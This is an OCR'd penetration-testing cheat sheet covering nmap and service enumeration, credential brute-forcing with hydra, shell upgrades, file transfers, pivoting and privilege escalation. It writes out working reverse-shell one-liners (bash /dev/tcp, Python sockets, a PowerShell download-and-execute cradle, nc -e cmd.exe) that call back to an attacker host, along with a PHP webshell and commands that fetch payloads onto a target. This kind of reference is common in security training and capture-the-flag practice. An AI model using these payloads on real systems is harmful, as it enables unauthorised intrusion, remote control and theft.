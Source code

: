 󾠮 General Enumeration - Nmap 🛠
Basic Scan
nmap -sC -sV -p- -oN full_scan.txt <target>
sC : Runs default scripts
sV : Detects service versions
p- : Scans all ports
oN : Saves output to a file
Aggressive Scan with OS Detection
nmap -A -T4 <target>
Scan Specific Ports
nmap -p 21,22,53,80,443,139,445,2049 <target>
—
󾠯 Banner Grabbing 🎭
Using Netcat
nc -nv <target> <port>
Using Telnet
telnet <target> <port>
Using Curl for HTTP Headers
curl -I http://<target>
—
󾠰 Port-Specific Enumeration
Port 21 - FTP
nmap --script=ftp-anon -p 21 <target>
Check for anonymous login:
ftp <target>
Port 22 - SSH
Check for weak credentials:
hydra -L users.txt -P passwords.txt ssh://<target>
Port 53 - DNS
Check for zone transfer:
dig axfr @<target> <domain>
Port 79 - Finger
finger @<target>
Port 80/443 - HTTP(S)
gobuster dir -u http://<target> -w /usr/share/wordlists/dirb/common.txt
Check for hidden files:
curl -X OPTIONS http://<target>
Port 110 - POP3
nc <target> 110
Use USER and PASS to check login.
Port 139/445 - SMB
nmap --script=smb-enum-shares -p 139,445 <target>
Check for anonymous login:
smbclient -L //<target>/ -N
Port 161 - SNMP
snmpwalk -v2c -c public <target>
Port 2049 - NFS
showmount -e <target>
—
󾠱 Shells & Payloads 🎯
Universal Listeners
Netcat Listener:
nc -lvnp 4444
Metasploit Listener:
use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set LHOST <your-ip>
set LPORT 4444
run
—
Linux Shells
Reverse Shell:
bash -i >& /dev/tcp/<your-ip>/4444 0>&1
Python Reverse Shell:
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,so
cket.SOCK_STREAM);s.connect(("<your-ip>",4444));os.dup2(s.fileno(),0); os.
dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
—
Windows Shells
PowerShell Reverse Shell:
powershell -NoP -NonI -W Hidden -Exec Bypass -C "IEX (New-Object Net.We
bClient).DownloadString('http://<your-ip>/shell.ps1')"
Netcat Reverse Shell:
nc.exe -e cmd.exe <your-ip> 4444
—
PHP Webshells
<?php system($_GET['cmd']); ?>
Upload this file and execute commands like:
http://target.com/shell.php?cmd=whoami
—
󾠲 Upgrading Your Shell - Linux
If you get a limited shell, upgrade it to an interactive one:
python3 -c 'import pty; pty.spawn("/bin/bash")'
Enable a proper TTY:
export TERM=xterm-256color
stty raw -echo; fg
—
󾠳 Escaping Jailed Shells
Check if restricted shell is active:
echo $SHELL
Bypass Limited Shell:
awk 'BEGIN {system("/bin/bash")}'
or
perl -e 'exec "/bin/sh";'
—
󾠴 File Transfers 📂
Linux - HTTP Server
Start a Python HTTP server:
python3 -m http.server 8080
Download the file on the target:
wget http://<your-ip>:8080/shell.sh
Windows File Transfer (PowerShell)
Invoke-WebRequest -Uri "http://<your-ip>/nc.exe" -OutFile "C:\Users\Public\nc.exe"
—
󾠵 Port Forwarding & Pivoting
Linux
ssh -L 8080:127.0.0.1:80 user@pivot-host
Windows (Chisel)
chisel client <your-ip>:8000 R:8080:127.0.0.1:80
—
󾠶 Privilege Escalation 🚀
Windows Privilege Escalation
Check for Privileges
whoami /priv
Find Weak Service Permissions
icacls C:\Program Files\VulnerableApp
Check for Unquoted Service Paths
wmic service get name,displayname,pathname
Windows Kernel Exploits
https://github.com/SecWiki/windows-kernel-exploits
—
Linux Privilege Escalation
Find SUID Binaries
find / -perm -4000 2>/dev/null
Check for Sudo Privileges
sudo -l
Escalate to Root if Sudo is Misconfigured
sudo /bin/bash
Kernel Exploits (Dirty Pipe, Dirty COW, etc.)
https://github.com/SecWiki/linux-kernel-exploits
—
